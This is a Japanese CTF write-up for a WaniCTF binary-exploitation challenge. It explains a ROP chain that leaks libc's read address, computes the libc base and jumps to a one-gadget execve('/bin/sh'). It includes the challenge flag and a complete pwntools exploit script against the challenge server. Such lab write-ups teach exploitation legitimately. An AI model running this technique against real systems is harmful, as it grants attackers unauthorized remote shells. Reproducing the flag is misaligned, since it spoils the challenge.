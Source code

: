 # one gadget rce [pwn]
## 問題文

```
nc rce.wanictf.org 9007
```

+ ROPを使ったlibcのロードアドレスのリークを理解する必要があります。
+ libc上にあるone gadget RCE (Remote Code Execution)の探し方と呼び出し方を理解する必要があります。
+ `one_gadget libc-2.27.so`


### 使用ツール例

+ [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)
+ [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)
+ [ROPgadget](https://github.com/wani-hackase/memo-setup-pwn-utils#ROPgadget)
+ [one_gadget](https://github.com/wani-hackase/memo-setup-pwn-utils#one_gadget)

### セキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ *Stack Smash Protection (SSP)無効*
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG
```
FLAG{mem0ry-1eak-4nd-0ne-gadget-rem0te-ce}
```
## 解法

以下の手順で/bin/shを実行します。

1. 「read関数のGOTを引数としてputs関数で呼んでlibc上のread関数のロードアドレスをリークする」ROPを実行
2. libc上のread関数のアドレスとリークしたアドレスからlibcがロードされた先頭アドレスを算出
3. 「libcがロードされた先頭アドレスからone gadget RCEのアドレスを計算してone gadget RCEを呼び出す」ROPを実行

まず、`objdump -d -M intel ./pwn07`で必要なアドレスを調べます。
リークで使うputsのアドレス、リークで出力させるread関数のGOTアドレス、一度リークさせた後に再度プログラムを最初から実行してbuffer over flowを起こさせるための_startのアドレスをそれぞれ調べます。
read関数のGOTアドレスにはロードされたlibc上のreadのアドレスが実行時にロードされているのでputsでread関数のGOTアドレスを引数にしてputsを呼び出すとロードされたlibc上のreadのアドレスが入手できます。

```
addr_puts_plt = 0x400650
addr_read_got = 0x601050
addr_start = 0x4006c0
```

puts関数を呼ぶときの第一引数を設定するためにしようするROP gadgetを`ROPgadget --binary ./pwn07`で探します。
第一引数はRDIレジスタに入れるのでpop_rdiのROPガジェットを探します。

```
addr_pop_rdi = 0x400a13
```

次に、libc上のread関数のアドレスを`objdump -d -M intel ./libc-2.27.so`で調べます。
`__read@@GLIBC_2.2.5`のアドレスがlibc上のread関数のアドレスになります。

```
addr_read_libc = 0x110140
```

最後に、libc上のone gadget RCEを探します。
one gadget RCEとは、libc上のそのアドレスに飛ばせばシェルが起動できるgadgetです。
今回のlibcには3つのone gadget RCEがあります。

```
% one_gadget libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

この3つはそれぞれシェルが起動できる制約条件が異なるので3つのアドレスをメモって試します。
今回の場合、3つ目が刺さるはずです。

```
addr_one_gadget_libc = 0x4f3d5
addr_one_gadget_libc = 0x4f432
addr_one_gadget_libc = 0x10a41c
```

以上を組み合わせたexploitコードは以下の通りです。

```
import pwn

io = pwn.remote("rce.wanictf.org", 9007)

ret = io.readuntil("What's your name?: ")
print(ret)

addr_puts_plt = 0x400650
addr_read_got = 0x601050
addr_start = 0x4006c0

addr_pop_rdi = 0x400a13

addr_read_libc = 0x110140

#addr_one_gadget_libc = 0x4f3d5
#addr_one_gadget_libc = 0x4f432
addr_one_gadget_libc = 0x10a41c

## リーク用のROPを送信
s = b"A" * 22
s += pwn.p64(addr_pop_rdi)
s += pwn.p64(addr_read_got)
s += pwn.p64(addr_puts_plt)
s += pwn.p64(addr_start)

io.send(s)


## リークしたアドレスを用いてone gadget RCEのアドレスを計算
ret = io.read()
ret = io.read()

trim_start = ret.find(b"\n\n") + 1
trim_start = ret.find(b"\n\n", trim_start) + len(b"\n\n")
trim_end = ret.find(b"\nWelcome", trim_start)

s = ret[trim_start:trim_end]
s = s + b"\x00" * (8 - len(s))

addr_read_leak = pwn.u64(s) 
addr_libc_base = addr_read_leak - addr_read_libc
addr_one_gadget = addr_libc_base + addr_one_gadget_libc


## one gadget RCEを投げる
s = b"A" * 22
s += pwn.p64(addr_one_gadget)

io.send(s)

io.interactive()
```
